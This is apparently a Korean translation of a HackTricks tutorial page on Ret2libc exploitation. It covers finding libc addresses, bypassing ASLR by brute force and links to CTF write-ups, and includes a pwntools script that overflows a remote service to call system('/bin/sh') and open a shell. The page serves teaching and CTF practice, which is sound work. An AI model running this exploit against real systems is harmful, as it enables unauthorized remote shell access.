 # Ret2lib

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 될 때까지 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 기여하세요.

</details>

## **기본 정보**

**Ret2Libc**의 본질은 취약한 프로그램의 실행 흐름을 공격자가 제공한 셸코드를 스택에 실행하는 대신 공유 라이브러리(예: **system**, **execve**, **strcpy**) 내의 함수로 리다이렉트하는 것입니다. 공격자는 페이로드를 작성하여 스택의 반환 주소를 원하는 라이브러리 함수를 가리키도록 수정하고, 호출 규약에 따라 필요한 인수가 올바르게 설정되도록도 조치합니다.

### **예시 단계 (간소화)**

* 호출할 함수의 주소(예: system) 및 호출할 명령(예: /bin/sh)을 가져옵니다.
* 첫 번째 인수를 가리키는 ROP 체인을 생성하여 명령 문자열을 가리키고 함수로 실행 흐름을 전달합니다.

## 주소 찾기

* 현재 시스템에서 사용하는 `libc`를 가정하면 메모리에 로드될 위치를 다음과 같이 찾을 수 있습니다:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

ASLR가 libc 주소를 변경하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* 사용된 libc를 알면 `system` 함수의 오프셋을 찾을 수도 있습니다:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* 사용된 libc를 알면 `/bin/sh` 문자열 함수의 오프셋을 찾을 수도 있습니다:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF를 사용하는 방법

사용 중인 libc를 알고 있다면 Peda 또는 GEF를 사용하여 **system** 함수, **exit** 함수 및 문자열 **`/bin/sh`**의 주소를 얻을 수도 있습니다:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps 사용

프로세스가 **매번 대화할 때마다 자식 프로세스를 생성**하는 경우 해당 파일을 **읽어보세요** (아마도 루트 권한이 필요할 것입니다).

여기에서는 프로세스 내부에 **libc가 정확히 어디에 로드되었는지**와 **프로세스의 각 자식이 로드될 위치**를 찾을 수 있습니다.

![](<../../../.gitbook/assets/image (850).png>)

이 경우 **0xb75dc000**에 로드됩니다 (이것이 libc의 기본 주소가 될 것입니다)

## 알 수 없는 libc

바이너리가 로드하는 libc를 **알 수 없을 수도 있습니다** (접근할 수 없는 서버에 위치할 수 있기 때문입니다). 이 경우 취약점을 악용하여 **일부 주소를 노출시키고 어떤 libc 라이브러리가 사용 중인지** 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

또한 이에 대한 pwntools 템플릿을 다음에서 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2개의 오프셋을 사용하여 libc 알아내기

페이지 [https://libc.blukat.me/](https://libc.blukat.me/)를 확인하고 libc 내의 함수 주소 **두 개를 사용**하여 **사용된 버전**을 확인하세요.

## 32비트에서 ASLR 우회

이러한 무차별 대입 공격은 **32비트 시스템에만 유용**합니다.

* 공격이 로컬인 경우 libc의 기본 주소를 무차별 대입해 볼 수 있습니다 (32비트 시스템에 유용):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격하는 경우, 인자로 10을 전달하여 `libc` 함수 `usleep`의 주소를 **브루트 포스**할 수 있습니다. **서버가 응답하는 데 10초 더 걸린다면**, 이 함수의 주소를 찾은 것입니다.

## 원 가젯

`libc`에서 **특정 주소**로 점프하여 셸을 실행합니다:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib 코드 예시

이 예시에서 ASLR 브루트 포스가 코드에 통합되어 있으며 취약한 이진 파일이 원격 서버에 위치해 있습니다:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib 코드 예제

다음 예제를 확인하십시오:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Ret-into-printf (또는 puts)

이를 통해 `printf`/`puts`를 호출하여 특정 데이터를 인수로 사용하여 프로세스에서 정보를 **유출**할 수 있습니다.

## Ret2printf

이는 기본적으로 **`printf` 형식 문자열 취약점으로 변환하기 위해 Ret2lib를 남용**하는 것을 의미하며, `ret2lib`를 사용하여 값을 사용하여 printf를 호출하여 해당 값을 악용하는 것을 의미합니다 (의미 없지만 가능함):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## 다른 예제 및 참조

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc 내 함수 주소 누출, 원 가젯 사용
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64비트, ASLR 활성화되어 있지만 PIE 비활성화, 첫 번째 단계는 canary의 바이트 0x00까지 오버플로우를 채우고 그런 다음 puts를 호출하여 누출합니다. canary로부터 ROP 가젯을 만들어 GOT에서 puts의 주소를 누출하고 `system('/bin/sh')`를 호출하는 ROP 가젯을 호출합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64비트, ASLR 활성화, canary 없음, 메인 함수에서 자식 함수로의 스택 오버플로우. puts를 호출하여 GOT에서 puts의 주소를 누출하고 원 가젯을 호출합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64비트, PIE 없음, canary 없음, relro 없음, nx. write 함수를 사용하여 write (libc)의 주소를 누출하고 원 가젯을 호출합니다.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* 스택에서 canary를 누출하기 위해 형식 문자열을 사용하고 시스템을 호출하기 위해 버퍼 오버플로우를 사용하여 `/bin/sh`의 주소로 시스템을 호출합니다.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32비트, relro 없음, canary 없음, nx, pie. libc 및 힙 주소를 스택에서 누출하기 위해 나쁜 인덱싱을 남용합니다. 버퍼 오버플로우를 남용하여 `system('/bin/sh')`를 호출하는 ret2lib를 수행합니다 (힙 주소는 체크를 우회하기 위해 필요합니다).
